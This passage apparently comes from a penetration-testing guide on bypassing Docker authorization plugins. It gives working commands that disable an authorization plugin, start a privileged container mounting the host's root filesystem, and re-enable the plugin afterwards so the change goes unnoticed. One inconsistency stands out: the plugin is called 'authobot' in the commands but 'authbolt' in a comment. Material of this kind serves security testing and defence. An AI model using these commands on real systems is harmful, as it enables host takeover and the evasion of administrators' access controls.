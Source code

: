 If the sysadmin forgotten to forbid the ability to disable the plugin, you can take advantage of this to completely disable it!

```
docker plugin list #Enumerate plugins

# If you don’t have access to enumerate the plugins you can see the name of the plugin in the error output:
docker: Error response from daemon: authorization denied by plugin authobot:latest: use of Privileged containers is not allowed.
# "authbolt" is the name of the previous plugin

docker plugin disable authobot
docker run --rm -it --privileged -v /:/host ubuntu bash
docker plugin enable authobot
```

Remember to re-enable the plugin after escalating, or a restart of docker service won’t work!

### Auth Plugin Bypass writeups
